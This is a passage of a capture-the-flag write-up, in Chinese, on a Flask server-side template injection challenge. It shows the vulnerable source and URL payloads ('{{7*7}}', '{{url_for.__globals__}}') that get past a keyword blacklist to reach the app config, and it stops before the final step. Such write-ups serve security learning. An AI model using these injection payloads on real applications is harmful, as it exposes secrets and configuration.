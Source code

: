 得到flag



## [WesternCTF2018]shrine

###### python ssti（url_for）

看源码：

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')//注册了一个名为FLAG的config，猜测这就是flag


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

尝试：

```
http://d826569e-dfe3-4349-832b-5fc42eb13591.node4.buuoj.cn:81/shrine/{{7*7}}
```

可以在页面上回显49

然后查询object的子类：

```
http://ed0b0952-d924-428b-b115-c0e698adcacd.node4.buuoj.cn:81/shrine/{{url_for.__globals__}}
```

![image-20231213204730024](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231213204730024.png)

看到current_app意思应该是当前app，那我们就当前app下的config：
